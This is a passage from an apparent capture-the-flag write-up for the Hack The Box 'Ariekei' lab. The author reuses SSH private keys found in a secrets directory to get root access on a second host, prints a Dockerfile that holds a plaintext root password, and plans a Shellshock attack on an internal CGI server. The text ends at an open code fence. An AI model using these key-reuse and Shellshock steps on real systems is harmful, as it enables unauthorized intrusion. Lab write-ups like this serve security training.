 After doing some enum we find some juicy stuff inside the dir ```/common/.secrets```

It has 2 keys ```bastion_keu and bastion_key.pub```

Lets copy it to our machine

The pub tells us that its the login for root@ariekei ```ssh -v -i bastion_key root@ariekei.htb```

That didnt work, maybe its for the port 1022

```ssh -v -i bastion_key root@ariekei.htb -p1022```

Works!!!!

```
root@ezra:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ezra:~# hostname
ezra.ariekei.htb
```

Looks like we are inside a different host

```
root@ezra:/common/containers/blog-test# ls -l
total 24
-rw-r--r-- 1 root  999  144 Sep 23 18:43 Dockerfile
-rwxr--r-- 1 root  999   32 Sep 16 00:45 build.sh
drwxr-xr-x 2 root root 4096 Sep 26 18:24 cgi
drwxr-xr-x 7 root  999 4096 Sep 26 18:15 config
drwxr-xr-x 2 root root 4096 Dec 19 06:00 logs
-rwxrwx--x 1 root  999  386 Nov 13 14:36 start.sh
```

It seems to be the one with the cgi dir (Shellshock ahem ahem)

```
root@ezra:/common/containers/blog-test# cat Dockerfile 
FROM internal_htb/docker-apache
RUN echo "root:Ib3!kTEvYw6*P7s" | chpasswd
RUN apt-get update 
RUN apt-get install python -y
RUN mkdir /common 
```

```
root@ezra:/common/containers/blog-test# cat start.sh 
docker run \
-v /dev/null:/root/.sh_history \
-v /dev/null:/root/.bash_history \
--restart on-failure:5 \
--net arieka-test-net --ip 172.24.0.2 \
-h beehive.ariekei.htb --name blog-test -dit \
-v /opt/docker:/common:ro \
-v $(pwd)/cgi:/usr/lib/cgi-bin:ro \
-v $(pwd)/config:/etc/apache2:ro \
-v $(pwd)/logs:/var/log/apache2 \
-v /home/spanishdancer:/home/spanishdancer:ro  web-template
```

We know that the internal ip for the cgi website is 172.24.0.2

Now we can try and run shellshock via the internal network and hope the WAF doesnt block us (We should check the WAF settings before we do it, but wth!)


```